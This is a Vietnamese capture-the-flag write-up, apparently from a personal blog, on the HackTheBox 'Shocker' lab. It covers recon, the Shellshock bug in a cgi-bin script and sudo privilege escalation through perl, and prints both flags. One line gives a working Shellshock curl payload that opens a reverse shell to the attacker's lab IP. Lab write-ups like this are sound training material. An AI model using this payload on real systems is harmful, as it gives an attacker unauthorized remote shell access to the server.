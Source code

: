 ```yaml
---
title: Shocker
Date: 2025-01-07
categories: HackTheBox Easy
tags:
  - HTB
  - Easy
  - Shocker
---
```

# Mô tả
Ngẫu hứng đêm phia ^^. Vì nay nhức chân không thể chạy bộ theo kế hoạch, chán quá không biết làm gì thôi thì làm một bài easy cho đỡ chán.
Lướt mô tả của các bài easy một hồi thì mình quyết định chọn bài này, vì nó làm mình nhớ đến cái bug huyền thoại thời nào.
Đây là mô tả của bài lab để bạn biết cụ thể hơn mình đang nói điều gì :)))

![Screenshot](/assets/htb/Pasted image 20250107002756.png)
# Attack
## Recon
Như thường lệ, vẫn là `nmap`.

![Screenshot](/assets/htb/Pasted image 20250107003411.png)

Vẫn là port 80 quen thuộc. Truy cập web thôi.

![Screenshot](/assets/htb/Pasted image 20250107005044.png)

Giao diện web cũng không có gì vui. Như một thói quen thời sinh viên, dirsearch thử xem có thư mục hay file nào hay ho không.

![Screenshot](/assets/htb/Pasted image 20250107003800.png)

Kết quả từ gobuster cũng vọn vẹn nhiêu đây. À há có `cgi-bin` kìa. Thử dirsearch phát nữa xem có gì hot.

![Screenshot](/assets/htb/Pasted image 20250107005222.png)

Ây da, lòi ra một file `.sh`.

![Screenshot](/assets/htb/Pasted image 20250107005233.png)

Truy cập vào thì chỉ có bấy nhiêu thông tin => Hơi thất vọng.
`Just an uptime test script` -> đây có vẻ như là một lệnh nào đó của linux. Đúng rồi đó là lệnh `uptime`.
## Exploit Shellshock
Mà ủa "làm vậy để làm chi ?", thật sự tới đây mình chưa hiểu được vấn đề ở đây là gì ? Thôi thì tạm để nó qua một bên vậy.
Nhớ lại đoạn mô tả của bài lab này có nhắc đến `Shellshock exploit`. Đây cũng chính là lỗ hổng trong truyền thuyết mà mình đã nhắc ở đầu bài viết. Cứ thử exploit thử xem sao đã.

![Screenshot](/assets/htb/Pasted image 20250107013223.png)

Ngol lụm luôn.
## Flag 1
![Screenshot](/assets/htb/Pasted image 20250107013519.png)

Flag 1: `94f6590c169a65d3375d01d7b2786046`
## Privileges
Vẫn như thói quen hồi đại học. Cứ hễ nghĩ đến leo quyền là nhanh tay gõ lệnh `sudo -l`.

![Screenshot](/assets/htb/Pasted image 20250107014136.png)

May thay đây cũng là một lab dạng easy nên có ngay kết quả chưa một binary có thể dùng quyền sudo mà không cần password.
Chuyện leo quyền bây giờ trở nên đơn giản hơn rồi. Việc còn lại là viết một payload sử dụng perl call tới /bin/bash như người dùng root là xong.
Do là gom chung vào 1 payload khá là khó chẹo nên mình quyết định reverse shell vào user `shelly` rồi sau đó leo quyền cho dễ.

![Screenshot](/assets/htb/Pasted image 20250107015655.png)

Payload: `curl -A '() { :; }; echo; /bin/bash -i >& /dev/tcp/10.10.16.14/2804 0>&1' http://10.129.206.242/cgi-bin/user.sh`.
## Flag 2
![Screenshot](/assets/htb/Pasted image 20250107020250.png)

Flag 2: `bb1604537f6b21a35dab9402628b959a`.
